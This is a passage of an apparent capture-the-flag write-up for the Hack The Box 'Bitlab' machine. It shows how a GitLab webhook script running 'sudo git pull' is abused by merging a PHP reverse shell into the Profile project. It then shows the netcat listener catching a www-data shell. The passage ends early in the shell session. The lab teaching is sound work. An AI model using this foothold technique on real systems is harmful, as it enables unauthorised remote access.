 {% include figure image_path="/assets/images/htb/bitlab/1.5-web_enum.png" %}

taking a deepest look into ```Profile``` we find that this project has [Auto DevOps](https://docs.gitlab.com/ee/topics/autodevops/) enabled.
We continue enumerating a bit more, and see that the project called ```Deployer``` is in charge to manage to do that: deploy the applications, in the description is given a link pointing to the we take a look into the documentation of [webhooks](https://docs.gitlab.com/ee/user/project/integrations/webhooks.html) gitlab has, after it we take a look into ```index.php``` to see what it does:

{% include figure image_path="/assets/images/htb/bitlab/1.6-web_enum.png" %}

{% include figure image_path="/assets/images/htb/bitlab/1.7-web_enum.png" %}

```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```

Tying together the pieces we have at this point, we can figure out the foothold: we need to upload a php reverse shell, having it merged to master (the code of ```index.php``` specifies git pull will being executed basically if there was a merge to master), once that is done, a webhook will execute ```index.php``` from ```Deployer``` with this we will have our reverse shell uploaded to server.

## RCE -> www-data -> root

We upload the next [php reverse shell by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) changing ```$ip = '127.0.0.1'``` and ```$port = 1234``` to our ip and the port we will be listening in our machine, afterwards we merge it (we will be automatically redirected to the page for merging it).

Now, the reverse shell is uploaded, but we still need to execute it, for that is needed to know which one is the path to execute it, if we remember the project ```Deployer``` has it's index.php which will print an "OK" we could try to access the path of deployer and see if it is printed, if it is, then we know that the path for our reverse shell will be ```http://10.0.0.14/profile/<name of our reverse shell>```:

{% include figure image_path="/assets/images/htb/bitlab/1.rce.png" %}

now we know that indeed that the mentioned url above will be the one wee need to use.

We run the listener for our reverse shell and execute it, with it having our rce:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.114] 57130
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 19:56:40 up 12 min,  0 users,  load average: 0.55, 0.56, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bitlab:/var/www$ pwd
pwd
```